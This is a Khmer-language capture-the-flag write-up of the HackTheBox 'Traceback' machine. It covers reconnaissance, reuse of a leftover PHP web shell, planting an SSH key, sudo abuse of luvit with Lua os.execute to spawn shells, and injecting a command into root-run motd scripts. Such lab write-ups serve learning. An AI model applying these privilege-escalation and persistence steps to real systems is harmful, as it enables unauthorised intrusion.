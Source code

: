 ```yaml
---
title: "HackTheBox - Traceback"
date: 2020-11-21T11:38:55+07:00
description: សំនេររៀបរាប់អំពីការហេគម៉ាស៊ីនមេ traceback.
draft: false
hideToc: false
enableToc: true
enableTocContent: true
author: thik
authorEmoji: 🐱
#tags:
#- 
#categories:
#- 
series:
- HTB
image: images/feature/terminal.gif
---
```


![traceback-10.10.10.181](/images/article/htb/traceback/traceback.png)

#### Recon
ជាដំបូងខ្ញុំប្រើ Nmap ដើម្បីស្វែងរកផតដែលបានបើក និងសេវាកម្មដែលបានប្រើ

{{< highlight plain "linenos=table,hl_lines=8 13" >}}
:~$ sudo nmap -sC -sV 10.10.10.181 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-21 13:29 +07
Nmap scan report for 10.10.10.181
Host is up (0.29s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

{{< / highlight >}}

ដូចដែលបានឃើញ គឺមានតែផតពីរប៉ុណ្នោះដែលបានបើកគឺផត ២២(ssh) និងផង ៨០(http)

#### OSINT
ក្រោយពីស្កេនរួចមកខ្ញុំក៏ចូលទៅកាន់អាស័យដ្ឋាន http://10.10.10.181:80 ហើយក៏បានឃើញដូចរូបដូចខាងក្រោម៖

![traceback-10.10.10.181](/images/article/htb/traceback/1.deface.png)

ខ្ញុំចុច Ctrl+U ដើម្បីចូលមើលកូដខាងក្នុង ក៏ឃើញមាននូវព័ត៌មានមួយចំនួន៖

![traceback-10.10.10.181](/images/article/htb/traceback/2.hint.jpg)

ខ្ញុំចាប់ផ្ដើមស្វែងរកឈ្មោះម្ចាស់គណនី <span style="color:red">Xh4H</span> នៅក្នុង Google ហើយក៏បានរកឃើញនូវ Github របស់ម្ចាស់គណនី។
បន្ទាប់មកខ្ញុំបានចូលទៅមើលក្នុង Repositories នោះហើយក៏ឃើញមាន Repository មួយមានឈ្មោះថា Web-Shells

![traceback-10.10.10.181](/images/article/htb/traceback/3.webshell.jpg)

ខ្ញុំបានសាកល្បងចូលទៅតាមឈ្មោះរបស់ Shell រហូតដល់ឯកសារឈ្មោះថា <span style="color:red">smevk.php</span> ដែលលោតចេញនៅផ្ទាំងបំពេញបែបបត់ចូល

![traceback-10.10.10.181](/images/article/htb/traceback/4.login-shell.jpg)

លេខសំងាត់របស់វាគឺ admin/admin ខ្ញុំក៏បានចូលទៅក្នុង Web Server បានសម្រេច។

![traceback-10.10.10.181](/images/article/htb/traceback/5.shell-access.jpg)

#### Get User

ដើម្បីបាន User Flag ជាដំបូងខ្ញុំបានចូលទៅក្នុង /home/ តាមរយៈ Web-Shell ហើយក៏ឃើញមានគណនីអ្នកប្រើប្រាស់ចំនួនពីរ sysadmin/webadmin ដោយគណនី sysadmin ខ្ញុំមិនអាចមានសិទ្ធិចូលទៅក្នុងបានទេដូចនេះខ្ញុំចូលបានតែគណនី webadmin មួយប៉ុណ្នោះ។

ក្រោយមកខ្ញុំក៏ឃើញមានថតឯកសារមួយឈ្មោះថា .ssh និង ឯងសារមួយទៀតឈ្មោះថា authorised_keys

![traceback-10.10.10.181](/images/article/htb/traceback/6.ssh-key.jpg)

ដូចនេះខ្ញុំក៏បានបង្កើតនៅ SSH-Key ហើយដាក់វាចូលទៅក្នុងឯកសារនោះដើម្បីមានសិទ្ធិចូលទៅកាន់ម៉ាស៊ីនមេតាមរយៈ SSH

![traceback-10.10.10.181](/images/article/htb/traceback/7.ssh-in.jpg)

ក្រោយពីចូលតាមរយៈ SSH រួចមកខ្ញុំបានឃើញឯកសារមួយឈ្មោះ note.txt ដែលក្នុងនោះមានអត្ថន័យថា៖

{{< highlight plain "linenos=table" >}}
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
{{< / highlight >}}

ខ្ញុំក៏សាកស្វែងរកមើលឯកសារនៅក្នុងនោះ ហើយក៏បានរកឃើញប្រវត្តិប្រើប្រាស់ពាក្យបញ្ជាចាស់ៗ របស់អ្នកប្រើប្រាស់ដូចខាងក្រោម៖

{{< highlight bash "linenos=table, hl_lines=5" >}}
webadmin@traceback:~$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout
{{< / highlight >}}

ដោយដឹងថា luvit ជាប្រភេទ lua script ដែលមានលទ្ធិភាពក្នុងការ execute និងបើកមើលនូវរាល់ឯកសារណាដែលមាននៅក្នុងគណនី sysadmin បានដូចនេះខ្ញុំក៏បង្កើត Script តូចមួយដើម្បីចូលទៅបើកមើលឯកសារ user.txt ដែលមាននៅក្នុងគណនី sysadmin ផ្ទាល់តែម្ដង។

{{< highlight plain "linenos=table" >}}
webadmin@traceback:~$ echo "os.execute("cat /home/sysadmin/user.txt") > user.lua
{{< / highlight >}}

បន្ទាប់មកខ្ញុំបានប្រើប្រាស់ឯកសារ luvit ដដែលដើម្បីបើកឯកសារ user.lua

{{< highlight plain "linenos=table, hl_lines=2" >}}
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit user.lua
23c296e8cxxxxxxxxxxxxxxxxxxxxxec
{{< / highlight >}}

ដូចនេះខ្ញុំក៏ទទួលបាន User Flag ដូចដែលបានបង្ហាញខាងលើ។

#### Get Root

ដោយប្រើប្រាស់ឯកសារ luvit ខ្ញុំអាចមានសិទ្ធិចូលជាគណនីរបស់ sysadmin បានដោយប្រើប្រាស់វិធីដូចខាងក្រោម៖

{{< highlight plain "linenos=table, hl_lines=3" >}}
webadmin@traceback:~$ echo "os.execute("/bin/bash") > sys.lua
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit sys.lua
sysadmin@traceback:~$
{{< / highlight >}}

ដូចដែលបានឃើញគឺខ្ញុំមានសិទ្ធិប្ដូរទៅជាគណនី sysadmin វិញដោយប្រើប្រាស់ Lua Script

បន្ទាប់ពីមានសិទ្ធិជា sysadmin ហើយខ្ញុំក៏ដាក់ SSH-Key ចូលទៅក្នុងប្រអប់ .ssh ដើម្បីអាច SSH ចូលទៅក្នុងគណនី sysadmin បានដូចពីពេលមុនដែរ។

បន្តទៀតខ្ញុំត្រូវការមើល Process របស់គណនី root ថាតើកំពុងតែប្រើពាក្យបញ្ជាអ្វីខ្លះ។ ដោយសារតែមិនមានសិទ្ធិជា root ចឹងហើយទើបជម្រើសដែលល្អបំផុតគឺប្រើប្រាស់ Tool ខាងក្រៅហើយ Tool ដែលខ្ញុំប្រើនោះគឺឈ្មោះ pspy64 ដែលវាមានលទ្ធិភាពក្នុងការមើល Process គ្រប់គណនីទាំងអស់បើទោះបីជាគ្មានសិទ្ធិជា root ក៏ដោយ។

<b>ទាញយក៖</b> <a target=BLANK href=https://github.com/DominicBreuker/pspy>pspy64</a>

ដើម្បី Upload ឯកសារនេះបានខ្ញុំត្រូវប្រើប្រាស់ពាក្យបញ្ជា scp

{{< highlight plain "linenos=table, hl_lines=3" >}}
:~$ sudo scp -i id_rsa pspy64 sysadmin@10.10.10.181:/tmp/
{{< / highlight >}}

ខ្ញុំបានបើកដំណើរការឯកសារ pspy64 នោះ ហើយវាបានបញ្ចេញនូវព័ត៌មានដូចខាងក្រោម៖

{{< highlight plain "linenos=table, hl_lines=3 6" >}}
2020/05/21 04:02:01 CMD: UID=0    PID=6094   | sleep 30 
2020/05/21 04:02:01 CMD: UID=0    PID=6093   | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/05/21 04:02:01 CMD: UID=0    PID=6092   | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/05/21 04:02:01 CMD: UID=0    PID=6091   | /usr/sbin/CRON -f 
2020/05/21 04:02:01 CMD: UID=0    PID=6090   | /usr/sbin/CRON -f 
2020/05/21 04:02:31 CMD: UID=0    PID=6096   | /bin/cp /var/backups/.update-motd.d/ /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
{{< / highlight >}}

អ្វីដែលគួរឲ្យចាប់អារម្មណ៏នោះគឺត្រង់កន្លែង "/bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/" និង "sleep 30" មានន័យថារាល់ពេល ៣០វិនាទីម្ដងម៉ាស៊ីនមួយនេះនឹងធ្វើការថតចម្លងគ្រប់ឯកសារទាំងអស់ដែលស្ថិតនៅក្នុងថតឯកសារ /var/backups/.update-motd.d/ យកទៅដាក់ចូលទៅក្នុងថតឯកសារ /etc/update-motd.d/ ដែលជាថតឯកសារមេរបស់ម៉ាស៊ីន និង ប្រើប្រាស់ដោយម្ចាស់គណនី root។

ក្រោយពីបានចូលទៅមើលឯកសារដែលមាននៅក្នុងថតឯកសារ /etc/update-motd.d/ រួចមកខ្ញុំសង្កេតឃើញថាឯកសារដែលមានក្នុងនោះគឺជារបស់ម្ចាស់គណនី root ប៉ុន្តែម្ចាស់គណនី sysadmin ក៏អាចមានសិទ្ធិកែប្រែបានផងដែរ។

ដូចនេះខ្ញុំក៏បន្ថែមពាក្យបញ្ជាមួយបន្ទាត់ទៀត គឺ "cat /root/root.txt" ចូលទៅក្នុងឯកសារ 00-header ដែលជាឯកសារបង្ហាញផ្ទាំងក្បាលនៅពេលចូលដល់កន្លែងវាយលេខសំងាត់របស់ SSH

![traceback-10.10.10.181](/images/article/htb/traceback/8.00-header.jpg)

នៅពេលរួចរាល់អស់ហើយខ្ញុំបានធ្វើការសាកល្បង SSH ចូលក្នុងម៉ាស៊ីនមេម្ដងទៀតហើយក៏ទទួលបាន... :D

![traceback-10.10.10.181](/images/article/htb/traceback/9.root.jpg)

ពិតណាស់ ដូចដែលឃើញចឹងគឺខ្ញុំទទួលបាន Root Flag នៅពេលដែលចូលក្នុងម៉ាស៊ីនមេដោយប្រើ SSH៕
